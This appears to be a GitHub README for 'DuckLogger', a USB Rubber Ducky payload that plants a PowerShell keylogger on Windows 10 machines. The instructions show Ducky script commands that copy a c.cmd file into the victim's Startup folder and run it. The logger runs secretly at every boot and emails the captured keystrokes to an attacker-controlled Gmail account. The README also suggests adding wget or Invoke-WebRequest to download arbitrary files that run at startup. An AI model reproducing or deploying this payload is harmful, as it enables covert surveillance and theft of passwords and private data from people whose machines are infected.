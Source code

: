 # DuckLogger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
:::::::::  :::    :::  ::::::::  :::    ::: :::        ::::::::   ::::::::   ::::::::  :::::::::: :::::::::
:+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:       :+:    :+: :+:    :+: :+:    :+: :+:        :+:    :+:
+:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+       +:+    +:+ +:+        +:+        +:+        +:+    +:+  
+#+    +:+ +#+    +:+ +#+        +#++:++    +#+       +#+    +:+ :#:        :#:        +#++:++#   +#++:++#:    
+#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+       +#+    +#+ +#+   +#+# +#+   +#+# +#+        +#+    +#+    
#+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#       #+#    #+# #+#    #+# #+#    #+# #+#        #+#    #+#     
#########   ########   ########  ###    ### ########## ########   ########   ########  ########## ###    ###     
```

## Overview:
```
DuckLogger is a USB RubberDucky payload that uses powershell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *l.ps1*
- *l.ps1* will log keystrokes and email the logs every startup [via SMTP]

## Resources:
- [YouTube Video]()
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck flashware
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *c.cmd*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. change name of the SD Card in *payload.txt*
```
REM change 'L' do the name of your ducky
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\c.cmd "C:/Users/$($env:UserName)/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/";exit
```
3. choose an option in *payload.txt*
```
REM comment out the option you decide NOT to use

REM STAGE 4 [OPTION1]
REM run keylogger
STRING cd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";.\c.cmd;exit

REM STAGE 4 [OPTION2]
REM restart computer
STRING shutdown /r
```
4. flash Twin-Duck flashware on to your duck
    - [Tutorial](https://youtu.be/ao32BS8fwaM?t=700)
5. load and deploy!!

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
